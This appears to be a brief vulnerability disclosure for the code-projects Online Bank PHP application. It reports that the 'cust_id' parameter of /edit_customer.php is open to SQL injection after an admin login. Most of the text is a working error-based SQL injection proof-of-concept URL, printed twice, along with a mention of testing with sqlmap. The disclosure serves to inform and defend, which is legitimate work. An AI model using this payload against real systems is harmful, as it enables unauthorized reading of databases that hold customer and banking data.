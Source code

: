 # Summary
There is a sql injection vulnerability in code-project Online Bank (https://code-projects.org/online-bank-in-php-css-javascript-and-mysql-free-download/).

Affected component is `/edit_customer.php`.

# Details
First, login as **ADMIN**.

In `/edit_customer.php?cust_id=1`,
parameter `cust_id` is vulnerable to sql injection, 
![image](https://github.com/user-attachments/assets/02a9f878-3a47-4347-ab58-632d0a90c65a)


PoC:
```
/edit_customer.php?cust_id=1 OR (SELECT 5641 FROM(SELECT COUNT(*),CONCAT(0x71787a7a71,(SELECT (ELT(5641=5641,1))),0x7171787a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```
![image](https://github.com/user-attachments/assets/e71c7551-500a-4945-9fb5-37a161f3d3c9)



we can use `sqlmap` to test:
![image](https://github.com/user-attachments/assets/9df634b6-b53e-4c04-a70e-d72458a971e8)





# PoC
```
/edit_customer.php?cust_id=1 OR (SELECT 5641 FROM(SELECT COUNT(*),CONCAT(0x71787a7a71,(SELECT (ELT(5641=5641,1))),0x7171787a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```
![image](https://github.com/user-attachments/assets/e71c7551-500a-4945-9fb5-37a161f3d3c9)

![image](https://github.com/user-attachments/assets/9df634b6-b53e-4c04-a70e-d72458a971e8)

